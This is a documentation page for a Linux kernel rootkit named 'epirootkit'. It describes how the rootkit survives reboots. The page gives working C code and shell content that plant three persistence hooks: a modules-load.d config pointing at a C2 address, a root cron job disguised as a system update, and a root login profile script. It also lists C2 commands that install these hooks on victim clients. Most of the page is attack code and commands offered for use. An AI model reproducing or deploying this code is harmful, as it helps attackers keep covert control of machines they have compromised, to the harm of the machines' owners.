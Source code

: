 ```yaml
---
title: "Persistence"
description: "Multiple boot persistence mechanisms for rootkit survival"
icon: "refresh"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 513
---
```


# Persistence

Multiple boot persistence mechanisms to ensure rootkit survival across system reboots.

## Three Mechanisms

### 1. modules-load.d
**File**: `/etc/modules-load.d/jules_est_bo_system.conf`  
**Content**: `epirootkit address=X.X.X.X port=YYYY`  
**Trigger**: systemd reads config and loads module automatically on boot

### 2. Cron Jobs  
**File**: `/etc/cron.d/jules_est_bo_update`  
**Schedule**: Every 5 minutes check and load if not present  
**Stealth**: Disguised as system update task with stealth naming

### 3. Shell Profiles
**File**: `/etc/profile.d/jules_est_bo_env.sh`  
**Trigger**: Executes when root user logs in  
**Check**: Loads module if not already present

## Implementation

### Automatic Installation
```c
int persistence_init(void)
{
    return persistence_install(); // Install all mechanisms
}
```

### Individual Mechanisms
```c
// modules-load.d persistence
int persistence_install_modules_load(void)
{
    return write_file("/etc/modules-load.d/jules_est_bo_system.conf", "epirootkit address=X.X.X.X port=YYYY\n");
}

// Cron persistence (every 5 minutes)
int persistence_install_cron(void) 
{
    const char *cron_content = 
        "*/5 * * * * root /bin/bash -c 'if ! lsmod | grep -q epirootkit; then "
        "modprobe epirootkit 2>/dev/null || "
        "insmod /lib/modules/$(uname -r)/extra/epirootkit.ko 2>/dev/null; fi'\n";
    
    return write_file("/etc/cron.d/jules_est_bo_update", cron_content, 0644);
}

// Shell profile persistence
int persistence_install_shell_profile(void)
{
    const char *profile_content = 
        "#!/bin/bash\n"
        "if [ \"$(id -u)\" -eq 0 ]; then\n"
        "    if ! lsmod | grep -q epirootkit 2>/dev/null; then\n"
        "        modprobe epirootkit 2>/dev/null\n"
        "    fi\n"
        "fi\n";
    
    return write_file("/etc/profile.d/jules_est_bo_env.sh", profile_content, 0755);
}
```

## Usage

### WebUI Control
**[Persistence Panel](../../04-web-ui/features/panels/persistence-panel.md)** provides:
- **Install All**: Enable all three persistence mechanisms
- **Remove All**: Disable all persistence mechanisms  
- **Individual Control**: Toggle each mechanism separately (modules-load.d, cron, shell profile)
- **Real-time Status**: View current state of each persistence method
- **Visual Indicators**: Color-coded status for active/inactive mechanisms

### C2 Commands
```bash
# Install all persistence mechanisms
persist_install Client-1

# Remove all mechanisms
persist_remove Client-1

# Individual control
persist_modules Client-1    # modules-load.d only
persist_cron Client-1       # cron only
persist_profile Client-1    # shell profile only
```

## Verification

### Check Installation
```bash
# modules-load.d
cat /etc/modules-load.d/jules_est_bo_system.conf
# epirootkit address=X.X.X.X port=YYYY

# Cron job
cat /etc/cron.d/jules_est_bo_update
# */5 * * * * root /bin/bash -c 'if ! lsmod | grep -q epirootkit; then modprobe epirootkit 2>/dev/null || insmod /lib/modules/$(uname -r)/extra/epirootkit.ko 2>/dev/null; fi'

# Shell profile
cat /etc/profile.d/jules_est_bo_env.sh
# #!/bin/bash
# if [ "$(id -u)" -eq 0 ]; then
#     if ! lsmod | grep -q epirootkit 2>/dev/null; then
#         modprobe epirootkit 2>/dev/null
#     fi
# fi
```

### Test Persistence
```bash
# Remove module and reboot
rmmod epirootkit
reboot

# Check if module reloaded
lsmod | grep epirootkit
# epirootkit               20480  0
```

All mechanisms are **enabled by default** and can be managed via WebUI or C2 commands.